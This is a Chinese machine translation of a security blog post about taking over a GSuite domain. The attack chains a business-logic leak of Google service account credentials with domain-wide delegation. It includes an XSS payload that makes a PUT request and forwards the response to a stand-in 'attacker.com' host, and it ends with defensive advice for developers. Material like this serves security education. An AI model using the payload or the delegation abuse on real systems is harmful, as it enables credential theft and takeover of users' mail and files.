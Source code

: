 # 通过委派接管 GSuite 域

> 原文：<https://infosecwriteups.com/gsuite-domain-takeover-through-delegation-9d6664c91142?source=collection_archive---------0----------------------->

![](img/10d1a4b76401ebe01fbb359ad21121d4.png)

# TL；速度三角形定位法(dead reckoning)

对于现代 web 应用程序来说，OAuth 集成并不少见，每个集成都需要实现一组特定的安全策略。通过利用 web 应用程序的不完整业务逻辑，甚至可以检索通过 OAuth 流集成的 Google 服务帐户凭证，并通过在 GSuite 域中委派特定权限来危害所有 GSuite 用户。

**免责声明**

任何使用域范围授权并公开其服务帐户凭据的人都容易受到下述问题的攻击。这意味着博客帖子没有揭示所描述产品中的任何 0 天漏洞，这是一个共同责任问题。

# GSuite 域接管

对于我们的例子，让我们假设应用程序有一个特定的企业焦点，通过 OAuth 流集成了大多数第三方服务。然后，应用程序依靠这些集成来提供附加功能和独特的解决方案。此外，一个核心特性是与 GSuite 的集成。

# IDOR 还是破碎的商业逻辑？

在审查 web 应用程序时，特别注意应用程序的行为方式以及它有什么样的业务逻辑是非常重要的。例如，管理员用户可以通过以下 API 端点更新公司设置:

```
PUT /api/settings/0921899e-c347-11ec-9d64-0242ac120002/update HTTP/2
Host: vulnerable.com{"integration.name":"GSuite - takeover"}
```

如果这个 API 端点响应一个很长的公司字段列表，并且通过检查所有这些字段，您发现类似“google_service_account”的字段，那么它可能是一个 google 服务帐户凭证:

![](img/effe6d8bfb611fff89ad1de44dc548d3.png)

一个 API 可以被设计成在同一个 API 路径上支持几种方法。所有的方法都是为特定的原因服务的，并且执行它们自己的业务逻辑。

看看 API 端点示例的`GET`方法，应用程序不返回这些凭证，但是`PUT`方法返回。因此，回顾相同 API 路由(端点)的所有支持方法是有价值的，因为它们可以返回不同的数据集。

这种数据泄漏可能与另一种攻击联系在一起，从而可能将数据泄漏给攻击者。这可能是一个 IDOR，XSS，错误配置的 CORS 攻击。让我们来看一个 XSS 攻击的例子，其中有效负载会更新任何公司设置，然后将应用程序响应重定向到恶意的 web 服务器。

但是在进入开发步骤之前，我们需要获得更多关于 google 服务凭证的信息)

# 什么是谷歌服务账户？

在这一点上，Google 服务帐户的凭证已经被破坏了，但是可以用它们做什么呢？

[](https://cloud.google.com/iam/docs/understanding-service-accounts) [## 了解服务帐户| IAM 文档| Google 云

### 服务帐户是一种特殊类型的 Google 帐户，用于代表需要认证的非人类用户…

cloud.google.com](https://cloud.google.com/iam/docs/understanding-service-accounts) 

根据官方文件:

> *服务帐户是一种特殊类型的帐户，由应用程序或计算工作负载使用，如计算引擎虚拟机(VM)实例，而不是人。应用程序使用服务账户进行* [*授权 API 调用*](https://developers.google.com/identity/protocols/OAuth2ServiceAccount#authorizingrequests) *，授权为服务账户本身，或者通过* [*全域委托*](https://developers.google.com/identity/protocols/oauth2/service-account#delegatingauthority) 授权为 Google Workspace 或云身份用户

从应用程序的角度来看，全域委托是我们的示例应用程序业务逻辑的理想匹配。这将允许代表 Google Workspace 域中的用户访问用户数据。例如，应用程序将能够访问 Google 日历、Gmail、Sheets、Gdrive API 和其他 GSuite 服务。授权服务帐户代表域中的用户访问数据有时被称为向服务帐户“委派全域性授权”。

有一个详细的指南，如何实现域范围的委托:

[](https://developers.google.com/admin-sdk/reports/v1/guides/delegation) [## 执行 Google Workspace 域范围的授权委托| Google Workspace Admin SDK 报告…

### 在企业应用程序中，您可能希望以编程方式访问用户的数据，而无需对…进行任何手动授权

developers.google.com](https://developers.google.com/admin-sdk/reports/v1/guides/delegation) 

# 完整的攻击链

示例攻击链可能由两部分组成。第一种涉及与易受攻击的应用程序的直接通信。我们需要创建一个代表用户更新公司设置的 XSS 有效负载，然后读取响应并将服务帐户凭证转发到我们控制下的主机。

![](img/6f534751845a500602516d0515723752.png)

```
var url = "<https://vulnerable.com/api/settings/0921899e-c347-11ec-9d64-0242ac120002/update>";
fetch(url, {
  method: 'put',
  body: JSON.stringify({"integration.name":"GSuite - takeover"}),
  mode: 'cors',
  headers: new Headers({
    'Content-Type': 'application/json'
  })
})
.then(response => fetch("<http://attacker.com/leak?response=>"+response))
```

对于第二部分，有了 Google 服务帐户凭证，我们不再与易受攻击的 web 应用程序进行交互，我们需要定义我们希望访问的范围，获得我们希望授予其权限的电子邮件地址，并代表用户与 Google 服务进行交互。下图解释了危害 GSuite 帐户的步骤:

![](img/789a773f3578c3d0ae4ee0d803d8382e.png)

# 编写漏洞利用

通过读取`service-account-credentials.json`文件，我们读取了检索到的 Google 服务帐户凭证。然后，我们将一组特定的权限委托给我们希望代表其访问 GSuite 服务的用户，例如 Gmail、Gdrive、Calendar、Google Spreadsheet 等等。通过遵循下面代码库中的注释，您可以了解如何委派服务帐户的用户权限。

# 摘要

通过获得 Google 服务帐户凭证，攻击者可以在该组织的 GSuite 域内做任何事情:读取、代表用户发送电子邮件、读取、写入 Google Drive 中的文件、查看 Google 表单、幻灯片和文档，换句话说就是所有事情。这就是为什么特殊的安全机制和预防措施对于确保凭据的安全性至关重要。

此外，这些凭证可能被分配了更多的权限，而不仅仅是我们的示例应用程序所需的域委派权限。如果设置集成的组织不遵循最小特权原则，这些凭据可能有权使用 GCP 基础架构，这一安全问题将会带来新的攻击媒介。

开发人员应该始终检查每个 API 端点，以确定它返回给最终用户的是什么类型的数据。任何私人用户信息的泄露都会导致灾难性的后果。

# 参考

1.  [https://cloud.google.com/iam/docs/service-accounts](https://cloud.google.com/iam/docs/service-accounts)
2.  [https://cloud . Google . com/SDK/g cloud/reference/auth/activate-service-ACCOUNT #账号](https://cloud.google.com/sdk/gcloud/reference/auth/activate-service-account#ACCOUNT)
3.  【https://cloud.google.com/sdk/gcloud/reference/cheat-sheet 
4.  [https://cloud . Google . com/iam/docs/understanding-service-accounts](https://cloud.google.com/iam/docs/understanding-service-accounts)
5.  [https://cloud . Google . com/compute/docs/reference/rest/beta/regions/list](https://cloud.google.com/compute/docs/reference/rest/beta/regions/list)
6.  [https://stack overflow . com/questions/33901090/how-to-create-Gmail-delegation-with-service-account](https://stackoverflow.com/questions/33901090/how-to-create-gmail-delegation-with-service-account)
7.  [https://developers . Google . com/admin-SDK/directory/v1/guides/delegation # python](https://developers.google.com/admin-sdk/directory/v1/guides/delegation#python)
8.  [https://cloud . Google . com/iam/docs/understanding-service-accounts # managing _ service _ account _ keys](https://cloud.google.com/iam/docs/understanding-service-accounts#managing_service_account_keys)
9.  [https://stack overflow . com/questions/53320537/creating-Google-API-credentials-from-service-account-with-scope-and-delegated-a](https://stackoverflow.com/questions/53320537/creating-google-api-credentials-from-service-account-with-scope-and-delegated-a)
10.  [https://developers . Google . com/admin-SDK/reports/v1/guides/delegation](https://developers.google.com/admin-sdk/reports/v1/guides/delegation)